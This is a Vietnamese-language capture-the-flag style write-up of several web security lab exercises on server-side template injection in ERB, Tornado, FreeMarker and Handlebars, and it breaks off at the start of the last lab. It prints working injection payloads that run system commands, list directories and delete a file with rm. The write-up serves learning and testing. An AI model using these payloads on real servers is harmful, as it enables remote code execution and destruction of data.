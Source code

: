 ## Lab: Basic server-side template injection

Trang web này đang sử dụng template là ERB

![Alt text](image.png)

Thử bấm vô views detail cái đầu tiên, bắn ra 1 cái message ở query string parameter.

![Alt text](image-1.png)

Trước tiên thì ta cần phải biết syntax của ERB, trông khá giống EJS 

![](image-2.png)

Thử inject `<%= 7*7 %>`
![](image-3.png)

![](image-4.png)

=> SSTI

`<%= system("whoami") %>`

Vậy ta có user hiện tại là carlos

![Alt text](image-5.png)

Ta dùng `<%= Dir.entries('/') %>` để liệt kê tất cả các folder hiện tại

![Alt text](image-6.png)

Đã tìm ra file morale.txt, giờ chỉ cần remove đi là được.

![Alt text](image-7.png)

`<%= system("rm /home/carlos/morale/txt") %>`

## Lab: Basic server-side template injection (code context)

![Alt text](image-8.png)

Ta dùng {{ 7*7 }} để xem kết quả

![Alt text](image-9.png)

Quay trở lại trang account, khi ta submit name:

![](image-10.png)

![Alt text](image-11.png)

Giờ thử điền thêm vài kí tự vào user.name để xem lỗi

=> template: tornado

![Alt text](image-12.png)

Ta import os, sau đó check user-> carlos

![Alt text](image-13.png)

Vậy là payload đã được execute, ta hình dung được file được render là:

`{{user.name}} {% import os %} {{os.system('whoami')}}`

## Lab: Server-side template injection using documentation

![Alt text](image-14.png)

Template: Freemaker

![Alt text](image-15.png)

![Alt text](image-16.png)

Như vậy là done

![Alt text](image-17.png)

## Lab: Server-side template injection in an unknown language with a documented exploit

Đầu tiên bấm vào view details -> message    

![Alt text](image-18.png)

Ta truyền 1 chuỗi kí tự: `${{<%[%'"}}%\` mục đích nhằm bắn ra error để biết được template

![Alt text](image-19.png)

Ở đây là handlebars của nodejs